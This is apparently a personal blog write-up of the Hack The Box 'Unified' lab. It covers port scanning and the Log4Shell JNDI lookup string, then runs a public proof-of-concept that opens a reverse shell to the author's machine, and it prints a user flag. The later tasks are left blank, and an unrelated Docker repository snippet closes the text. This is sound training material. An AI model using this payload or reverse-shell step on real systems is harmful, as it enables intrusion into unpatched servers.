 ```yaml
---
title: 'Unified - HTB Starting Point Tier 2'
description: 'Writeup for Unified box'
pubDate: 'Feb 8 2025'
heroImage: 'blog-placeholder-3.jpg'
---
```



## Unified
*MongoDB, Java, Code Injection*

The final Starting Point on the free tier! This is a momentous occasion. 

**Task 1**  
Which are the first four open ports?  

```bash
nmap -sC $TARGET --min-rate=2000 -oN nmap.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 20:16 AEDT
Nmap scan report for 10.129.96.149
Host is up (0.34s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to https://10.129.96.149:8443/manage
8443/tcp open  https-alt
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage

Nmap done: 1 IP address (1 host up) scanned in 18.31 seconds
```

22,6789,8080,8443

**Task 2**  
What is the title of the software that is running running on port 8443?  

Unifi Network

**Task 3**  
What is the version of the software that is running?  

Navigating to the web app, we see `6.4.54`


**Task 4**  
What is the CVE for the identified vulnerability?  

A quick search of "Unifi Network 6.4.54 cve" leads us to a github repo to exploit the log4j vulnerability `CVE-2021-44228`


**Task 5**  
What protocol does JNDI leverage in the injection?  

LDAP.

This [Cloudflare blog](https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/) specifies that LDAP was the primary focus of the CVE. FRom this blog, it looks like the JNDI interface could load up an arbitrary Java object via LDAP, e.g. `ldap://localhost:389/0=JNDITutorial` finds the JNDITutorial object from the local LDAP server and parses the object to read attributes. If you can control the LDAP URL, you can load up arbitrary objects in a Java runtime environment, and thus is the focus of this vulnerability.

Log4j contained a syntax that allowed the evaluation of a value to place into logs. It took the format `${prefix:name}`. `prefix` would specify the lookup to use, and the `name` would be the target of evaluation. e.g. `${java:version}` to retrieve the java version. Thus if an attacker could get log4j to write `${jndi:ldap://example.com/a}`, then log4j will try and resolve the object from that ldap server - this was added in Log4J2-313. A user-agent is a common field that gets logged.


**Task 6**  
What tool do we use to intercept the traffic, indicating the attack was successful?  

`tcpdump`


**Task 7**  
What port do we need to inspect intercepted traffic for?  

`389` as the LDAP port


**Task 8**  
What port is the MongoDB service running on?  

Default port is 27017. 


It seems that we want machine access at this point. I tried to capture the traffic in tcpdump and wireshark, but since it's using TLS the data is encrypted. I could spend time setting that up, or the writeup just suggests to use a proxy like burpsuite. I will dive in and try to use burpsuite for the first time. A learning experience! 

Reading [this](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi) article from Sprocket security  
> The vulnerability is in the `rememberme` value issued in the login request
>
> ```
> {"username":"asdf","password":"asdfas","remember":"<PAYLOAD>","strict":true}
> ```

In this situation, I will try and use the POC published by `puzzlepeaches`, found [here](https://github.com/puzzlepeaches/Log4jUnifi?tab=readme-ov-file)

... one docker install later ...

```bash
kali$ docker run -it -v $(pwd)/loot:/Log4jUnifi/loot -p 8090:8090 -p 1389:1389 log4junifi \ 
-u https://$TARGET$:8443 -i <my IP> -p 4444
```

Success! We now have a foothold.

![JNDI exploit success using the log4junifi poc](../../../../public/img/blog/htb-starting-point/unified-jndi-exploit.png)

> Learning opportunity
> TODO: Research how the exploit works. Beyond just the vulnerable field. The rogue JNDI stuff would be cool to understand


Once a reverse shell was obtained, we can run `ps aux | grep "mongo"` to find the db is running on port `27117`. 


**Task 9**  
What is the default database name for UniFi applications?  

Now that we know mongo is running, there should be a cli tool to interact with it. We should be able to determine the available db names, users, etc. as we continue to work through the [article](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi)


**Task 10**  
What is the function we use to enumerate users within the database in MongoDB?  


**Task 11**  
What is the function we use to update users within the database in MongoDB?  


**Task 12**  
What is the password for the root user?  


**Task 13**  
Submit user flag  

Once obtaining a reverse shell in task 9, we find the flag in `/home/michael/user.txt`:  
`6ced1a6a89e666c0620cdb10262ba127`


**Task 14**  
Submit root flag  






echo \
  "deb [arch=$(dpkg --print-architecture) signed-by=/etc/apt/keyrings/docker.asc] https://download.docker.com/linux/debian \
  $(. /etc/os-release && echo "$VERSION_CODENAME") stable" | \
  sudo tee /etc/apt/sources.list.d/docker.list > /dev/null